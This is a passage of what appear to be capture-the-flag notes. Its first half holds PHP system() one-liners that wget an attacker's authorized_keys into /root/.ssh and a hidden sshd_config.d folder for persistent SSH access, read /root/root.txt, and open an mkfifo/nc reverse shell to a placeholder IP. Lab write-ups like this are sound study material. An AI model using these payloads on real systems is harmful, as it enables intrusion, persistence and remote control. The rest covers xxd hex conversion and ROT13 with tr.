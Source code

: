         <?php system ("wget -P /root/.ssh http://YYY.YYY.YYY.YYY:8000/authorized_keys && chmod 600 /root/.ssh/authorized_keys;") ?>
        ```
    - run  
        ```bash
        $ wget http://YYY.YYY.YYY.YYY:8000/my.php
        ```
    - ssh from my machine to the target machine  

```php
<?php system ("mkdir -p /etc/ssh/sshd_config.d/.ssh && rm /etc/ssh/sshd_config.d/.ssh/* && wget -P /etc/ssh/sshd_config.d/.ssh http://XXX.XXX.XXX.XXX:8000/authorized_keys && chmod 600 /etc/ssh/sshd_config.d/.ssh/authorized_keys;") ?>
<?php system ("wget -P /root/.ssh http://XXX.XXX.XXX.XXX:8000/authorized_keys && chmod 600 /root/.ssh/authorized_keys;") ?>
<?php system ("ls -la /root && cat /root/root.txt;") ?>
```

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YYY.YYY.YYY.YYY 9443 >/tmp/f"); ?>
```

# js
# Lesson
- bash for `ASCII code point conversion` with `xxd` command
- bash for `Caesar cipher` with `tr` command
- `xxd`
  - `-x` option:  
    The -x option stands for "hexdump."  
    It displays the hex dump of the file in a more verbose format, including the hexadecimal offset, the hexadecimal values of each byte, and the ASCII representation of the data.
  - `-p` option:  
    The -p option stands for "plain."  
    It displays a plain hex dump without the offset and ASCII representation, just the hexadecimal values of the bytes.

# Memo
```console
$ echo https://example.com/ | xxd -p
68747470733a2f2f6578616d706c652e636f6d2f0a
$
$ echo 68747470733a2f2f6578616d706c652e636f6d2f0a | xxd -p -r
https://example.com/
$ echo 68 | xxd -p -r
h                                                                                                                  $
$ echo 6874 | xxd -p -r
ht
```
```console
$ echo https://example.com | tr 'A-Za-z' 'N-ZA-Mn-za-m'
uggcf://rknzcyr.pbz
$
$ echo uggcf://rknzcyr.pbz | tr 'A-Za-z' 'N-ZA-Mn-za-m'
https://example.com
```
